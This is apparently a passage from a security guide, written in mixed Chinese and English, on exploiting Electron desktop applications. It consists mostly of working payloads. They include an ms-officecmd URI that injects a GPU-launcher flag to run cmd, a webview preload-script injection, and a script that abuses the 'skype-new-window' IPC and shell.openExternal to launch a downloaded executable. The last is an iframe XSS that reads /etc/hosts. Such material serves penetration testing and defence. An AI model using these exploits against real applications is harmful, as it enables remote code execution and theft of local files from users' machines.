 ```html

<script>
window.open(
"ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D"
)
</script>
```
## RCE: webviewTag + vulnerable preload IPC + shell.openExternal

该漏洞可以在 **[this report](https://flatt.tech/research/posts/escaping-electron-isolation-with-obsolete-feature/)** 中找到。

The **webviewTag** 是一个 **已弃用的特性**，允许在 **renderer process** 中使用 **NodeJS**，应当禁用，因为它允许在 **preload context** 中加载脚本，例如：
```xml
<webview src="https://example.com/" preload="file://malicious.example/test.js"></webview>
```
因此，攻击者如果成功加载任意页面，可以利用该标签来**load an arbitrary preload script**。

该 preload script 随后被滥用去调用一个**vulnerable IPC service (`skype-new-window`)**，该服务会调用 **`shell.openExternal`** 从而获得 RCE：
```javascript
(async() => {
const { ipcRenderer } = require("electron");
await ipcRenderer.invoke("skype-new-window", "https://example.com/EXECUTABLE_PATH");
setTimeout(async () => {
const username = process.execPath.match(/C:\\Users\\([^\\]+)/);
await ipcRenderer.invoke("skype-new-window", `file:///C:/Users/${username[1]}/Downloads/EXECUTABLE_NAME`);
}, 5000);
})();
```
## 阅读内部文件：XSS + contextIsolation

**禁用 `contextIsolation` 使得可以使用 `<webview>` 标签**，类似于 `<iframe>`，用于读取并 exfiltrating 本地文件。下面的示例演示了如何利用此漏洞读取内部文件的内容：

![](<../../../images/1 u1jdRYuWAEVwJmf_F2ttJg (1).png>)

此外，还分享了另一种**读取内部文件**的方法，强调了 Electron 桌面应用中的一个关键本地文件读取漏洞。该方法涉及注入脚本以利用应用并 exfiltrate 数据：
```html
<br /><br /><br /><br />
<h1>
pwn<br />
<iframe onload="j()" src="/etc/hosts">xssxsxxsxs</iframe>
<script type="text/javascript">
function j() {
alert(
"pwned contents of /etc/hosts :\n\n " +
frames[0].document.body.innerText
)
}
</script>
</h1>
```
## **RCE: XSS + 旧 Chromium**
